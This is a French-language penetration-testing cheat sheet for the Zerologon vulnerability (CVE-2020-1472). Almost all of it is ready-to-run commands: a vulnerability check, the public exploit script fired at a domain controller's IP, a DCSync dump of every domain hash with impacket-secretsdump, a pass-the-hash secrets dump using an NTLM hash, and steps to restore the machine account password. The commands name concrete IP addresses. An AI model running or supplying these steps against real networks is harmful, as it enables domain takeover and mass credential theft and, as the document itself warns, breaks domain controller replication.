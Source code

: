 https://www.secura.com/blog/zero-logon
# CVE-2020-1472

> [!WARNING]
> Change le mot de passe de compte de machine du DC et donc coupe la communication entre les DC !!! 

> [!TIP]
> Permet de DCSYNC


1. Identifier si target vulnérable

```bash
nxc smb <ip> -u '' -p '' -M zerologon
```

## Exploit

https://github.com/dirkjanm/CVE-2020-1472


1. Exploit

```bash
python3 cve-2020-1472-exploit.py DC-NAME 163.172.195.64
```


2. DCSYNC

```bash
sudo impacket-secretsdump 'DC-ZEROLOGON$'@163.172.195.64 -just-dc -no-pass -user-status -history -pwd-last-set -outputfile DOMAIN_hashes
```

 
## Restaurer le mot de passe du compte de machine

1. Faire un VSS du volume C:\ afin d'extraire le plain_password_hex du compte de machine depuis les ruches (avec compte admin du domaine)

```bash
sudo impacket-secretsdump -hashes :777b1935ff37faba2b2c299288b0693b Administrator@212.129.29.187 -remoteSS-remote-volume c:\ -no-pass
```

2. Restaurer mot de passe à l'aide du Hex

```bash
sudo python3 restorepassword.py domain/dc@dc -target-ip <ip_dc> -hexpass <plain_password_hex>
```


